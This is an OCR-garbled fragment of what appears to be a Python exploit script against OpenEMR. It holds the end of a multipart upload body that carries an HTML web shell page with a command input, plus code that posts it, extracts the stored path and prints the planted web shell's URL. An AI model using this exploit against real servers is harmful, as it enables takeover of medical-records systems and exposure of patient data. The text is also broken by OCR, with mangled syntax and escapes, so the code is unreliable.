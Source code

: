 \\n

<div id=\"shell-input\">
\\n <label for=\"shell-cmd\" id=\"shell-prompt\" class=\"shell-prompt\">???</label>\\n

<div>
\\n <input id=\"shell-cmd\" name=\"cmd\" onkeydown=\"_onShellCmdKeyDown(event)\"/>\\n

</div>
\\n

</div>
\\n

</div>
\\n

</body>
\\n\\n

</html>
\\n\\r\\n-----------------------------370797319835249590062969815666\\r\\nContent-Disposition: form-data; name=\\"destination\\"\\r\\n\\r\\n\\r\\n-----------------------------370797319835249590062969815666\\r\\nContent-Disposition: form-data; name=\\"patient_id\\"\\r\\n\\r\\n4\\r\\n-----------------------------370797319835249590062969815666\\r\\nContent-Disposition: form-data; name=\\"category_id\\"\\r\\n\\r\\n4\\r\\n-----------------------------370797319835249590062969815666\\r\\nContent-Disposition: form-data; name=\\"process\\"\\r\\n\\r\\ntrue\\r\\n-----------------------------370797319835249590062969815666--\\r\\n"

1.  Exploit

x = session.post(url_upload, headers=header,data=body).text print(*) print('[+] Uploading your Webshell') b = x[x.find('documents/') + 10:] c = b[:b.find('\<')] webshellpath = '<http://>' + target_ip + ':' + target_port + openemr_path + '/sites/default/documents/' + c print(' [\*] Webshell: ' + webshellpath) print(*)

</pre>
